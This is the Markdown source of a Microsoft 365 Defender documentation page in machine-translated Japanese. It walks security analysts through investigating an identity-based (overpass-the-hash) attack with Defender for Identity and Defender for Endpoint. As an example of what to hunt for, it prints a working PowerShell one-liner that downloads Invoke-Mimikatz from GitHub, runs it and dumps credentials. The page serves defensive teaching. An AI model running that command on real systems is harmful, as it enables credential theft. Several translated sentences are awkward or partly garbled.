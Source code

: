 ```yaml
---
title: ID ベースの攻撃の例
description: ID ベースの攻撃の分析例を説明します。
keywords: インシデント、アラート、調査、相関関係、攻撃、コンピューター、デバイス、ユーザー、ID、メールボックス、電子メール、365、microsoft、m365、インシデント対応、サイバー攻撃
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: dansimp
author: dansimp
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 20b9fca87e003c0c776c9f614afaa1b6054c24a5
ms.sourcegitcommit: 3b8e009ea1ce928505b8fc3b8926021fb91155f3
ms.translationtype: MT
ms.contentlocale: ja-JP
ms.lasthandoff: 03/28/2022
ms.locfileid: "64500279"
---
```

# <a name="example-of-an-identity-based-attack"></a>ID ベースの攻撃の例

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**適用対象:**
- Microsoft 365 Defender

Microsoft Defender for Identity は、組織内の ID を侵害する悪意のある試みを検出するのに役立ちます。 Defender for Identity は Microsoft 365 Defender と統合され、セキュリティ アナリストは、Netlogon 特権昇格の疑いなど、Defender for Identity から入ってくる脅威を可視化できます。

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Microsoft Defender for Identity での攻撃の分析

Microsoft 365 Defender分析者は、[インシデント] ページの [アラート] タブで検出ソースによってアラートをフィルター処理できます。 次の例では、検出ソースは Defender for **Identity にフィルター処理されます**。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Microsoft Defender for Identity での検出ソースのフィルター処理" lightbox="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png":::

[疑わしいオーバー **パス-the ハッシュ** 攻撃] アラートを選択すると、Microsoft Defender for Cloud Apps のページに移動し、詳細情報が表示されます。 [このアラートの種類の詳細] を選択して、攻撃と修復の提案の説明を読み取[](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002)り、アラートまたは攻撃の詳細をいつでも確認できます。
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="疑わしいオーバーパス・ザ・ハッシュ攻撃アラート" lightbox="../../media/first-incident-path-identity/first-incident-identity-alert-example.png"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>エンドポイント向け Microsoft Defender で同じ攻撃を調査する

または、分析者は Defender for Endpoint を使用して、エンドポイントでのアクティビティの詳細を確認できます。 インシデント キューからインシデントを選択し、[アラート] タブ **を選択** します。ここから、検出ソースも識別できます。 検出ソースは、エンドポイントEDR検出と応答の略です。これは Defender for Endpoint です。 ここからアナリストは、ユーザーが検出したアラートをEDR。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Microsoft Defender for Endpoint ポータルのエンドポイント検出と応答" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png"::: 

アラート ページには、影響を受けたデバイス名、ユーザー名、自動調査の状態、アラートの詳細など、さまざまな関連情報が表示されます。 アラート ストーリーは、プロセス ツリーの視覚的な表現を示しています。 プロセス ツリーは、アラートに関連する親プロセスと子プロセスの階層的な表現です。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Microsoft Defender for Endpoint のアラート プロセス ツリー" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png"::: 

各プロセスを展開して、詳細を表示できます。 アナリストに表示される詳細は、悪意のあるスクリプト、送信接続 IP アドレス、その他の有用な情報の一部として入力された実際のコマンドです。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Microsoft Defender for Endpoint ポータルのプロセスの詳細" lightbox="../../media/first-incident-path-identity/first-incident-identity-process-details.png":::
 
[タイムラインで **表示] を選択** すると、アナリストはさらにドリルダウンして、侵害の正確な時刻を判断できます。 

Microsoft Defender for Endpoint では、多くの悪意のあるファイルとスクリプトを検出できます。 ただし、送信接続、PowerShell、およびコマンド ライン アクティビティの正当な使用が多いため、悪意のあるファイルまたはアクティビティが作成されるまで、一部のアクティビティは良性と見なされます。 そのため、タイムラインを使用すると、アナリストはアラートを周囲のアクティビティと関連付け、一般的なファイル システムとユーザー アクティビティによって見えなされない攻撃の元のソースまたは時間を特定できます。 

タイムラインを使用するには、アナリストはアラート検出時 (赤) から開始し、悪意のあるアクティビティに導かれた元のアクティビティが実際にいつ開始されたのか判断するために、時間内に後方にスクロールします。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="アナリストによるアラート検出の開始時刻" lightbox="../../media/first-incident-path-identity/first-incident-identity-start-time.png"::: 

Windows Update 接続、Windows 信頼できるソフトウェアライセンス認証トラフィック、Microsoft サイトへのその他の一般的な接続、サードパーティのインターネットアクティビティ、Microsoft Endpoint Configuration Manager アクティビティ、その他の良性アクティビティなどの一般的なアクティビティを疑わしいアクティビティと理解し、区別することが重要です。 区別する方法の 1 つは、タイムライン フィルターを使用する方法です。 アナリストが表示したくない項目をフィルター処理しながら、特定のアクティビティを強調表示できるフィルターが多数存在します。 

次の図では、アナリストがフィルター処理して、ネットワーク イベントとプロセス イベントのみを表示しました。 このフィルター条件を使用すると、アナリストは、メモ帳 が IP アドレスとの接続を確立したイベントを取り巻くネットワーク接続とプロセスを確認できます。これは、プロセス ツリーでも見ていました。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="悪意メモ帳送信接続を確立するために使用された方法" lightbox="../../media/first-incident-path-identity/first-incident-identity-notepad.png"::: 

この特定のイベントでは、悪意メモ帳送信接続を確立するために使用されたイベントです。 ただし、通常、iexplorer.exeプロセスは通常、Web ブラウザーの通常のアクティビティと見なiexplorer.exeを使用して悪意のあるペイロードをダウンロードする接続を確立します。

タイムラインで探すもう 1 つの項目は、PowerShell が送信接続に使用する場合です。 アナリストは、悪意のあるファイルをホストする Web サイトへの送信接続などのコマンドを使用して、PowerShell `IEX (New-Object Net.Webclient)` 接続の成功を探します。 

次の例では、PowerShell を使用して Web サイトから Mimikatz をダウンロードして実行しました。

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
アナリストは、検索バーにキーワードを入力して、PowerShell で作成されたイベントのみを表示することで、キーワードをすばやく検索できます。 

## <a name="next-step"></a>次のステップ

フィッシング調査 [パスを](first-incident-path-phishing.md) 参照してください。

## <a name="see-also"></a>関連項目

- [インシデントの概要](incidents-overview.md)
- [インシデントの管理](manage-incidents.md)
- [インシデントの調査](investigate-incidents.md)
